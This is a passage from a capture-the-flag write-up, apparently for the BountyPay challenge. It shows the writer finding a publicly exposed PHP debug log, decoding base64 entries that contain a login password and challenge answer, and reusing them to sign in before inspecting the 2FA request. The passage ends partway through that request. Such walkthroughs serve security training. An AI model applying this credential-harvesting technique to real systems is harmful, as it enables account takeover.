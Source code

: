 ```

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```
The log file
=====================

I quickly checked if `bp_web_trace.log` existed at`https://app.bountypay.h1ctf.com/bp_web_trace.log` and sure thing it did!
This was its content:
```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```
From the PHP source code, I knew these were UNIX timestamps +  base64 encoded strings.
After decoding them, this is what I got:
```
05/08/2020 @ 9:58am:{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
05/08/2020 @ 9:58am:{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
05/08/2020 @ 9:58am:{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
05/08/2020 @ 9:59am:{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```
At this point, I had a username, a password, a challenge_answer, and a few other things!
I tried to log in with those credentials at `https://app.bountypay.h1ctf.com/`:
{F852142}
And it worked, sort of!
There was a 2-factor authentication in place.
I tried to use the challenge_answer code that I got before but it didn't work.
{F852143}
After analyzing the HTTP request with Burp Suite:
```http
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/
Upgrade-Insecure-Requests: 1

```